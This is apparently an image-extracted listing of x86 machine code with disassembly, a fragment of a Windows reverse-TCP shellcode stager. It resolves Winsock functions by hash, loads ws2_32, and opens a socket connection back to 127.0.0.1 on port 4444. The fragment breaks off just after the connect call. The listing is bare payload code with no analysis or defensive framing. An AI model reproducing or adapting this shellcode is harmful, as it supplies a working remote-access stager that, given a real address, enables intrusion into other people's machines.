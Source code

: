 ```assembly
  7a:   38 e0                   cmp    %ah,%al
  7c:   75 f4                   jne    0x72
  7e:   03 7d f8                add    -0x8(%ebp),%edi
  81:   3b 7d 24                cmp    0x24(%ebp),%edi
  84:   75 e0                   jne    0x66
  86:   58                      pop    %eax
  87:   8b 58 24                mov    0x24(%eax),%ebx
  8a:   01 d3                   add    %edx,%ebx
  8c:   66 8b 0c 4b             mov    (%ebx,%ecx,2),%cx
  90:   8b 58 1c                mov    0x1c(%eax),%ebx
  93:   01 d3                   add    %edx,%ebx
  95:   8b 04 8b                mov    (%ebx,%ecx,4),%eax
  98:   01 d0                   add    %edx,%eax
  9a:   89 44 24 24             mov    %eax,0x24(%esp)
  9e:   5b                      pop    %ebx
  9f:   5b                      pop    %ebx
  a0:   61                      popa   
  a1:   59                      pop    %ecx
  a2:   5a                      pop    %edx
  a3:   51                      push   %ecx
  a4:   ff e0                   jmp    *%eax
  a6:   58                      pop    %eax
  a7:   5f                      pop    %edi
  a8:   5a                      pop    %edx
  a9:   8b 12                   mov    (%edx),%edx
  ab:   e9 80 ff ff ff          jmp    0x30
  b0:   5d                      pop    %ebp
  b1:   68 33 32 00 00          push   $0x3233
  b6:   68 77 73 32 5f          push   $0x5f327377
  bb:   54                      push   %esp
  bc:   68 4c 77 26 07          push   $0x726774c
  c1:   89 e8                   mov    %ebp,%eax
  c3:   ff d0                   call   *%eax
  c5:   b8 90 01 00 00          mov    $0x190,%eax
  ca:   29 c4                   sub    %eax,%esp
  cc:   54                      push   %esp
  cd:   50                      push   %eax
  ce:   68 29 80 6b 00          push   $0x6b8029
  d3:   ff d5                   call   *%ebp
  d5:   6a 0a                   push   $0xa
  d7:   68 7f 00 00 01          push   $0x100007f
  dc:   68 02 00 11 5c          push   $0x5c110002
  e1:   89 e6                   mov    %esp,%esi
  e3:   50                      push   %eax
  e4:   50                      push   %eax
  e5:   50                      push   %eax
  e6:   50                      push   %eax
  e7:   40                      inc    %eax
  e8:   50                      push   %eax
  e9:   40                      inc    %eax
  ea:   50                      push   %eax
  eb:   68 ea 0f df e0          push   $0xe0df0fea
  f0:   ff d5                   call   *%ebp
  f2:   97                      xchg   %eax,%edi
  f3:   6a 10                   push   $0x10
  f5:   56                      push   %esi
  f6:   57                      push   %edi
  f7:   68 99 a5 74 61          push   $0x6174a599
  fc:   ff d5                   call   *%ebp
  fe:   85 c0                   test   %eax,%eax
 100:   74                      .byte 0x74
```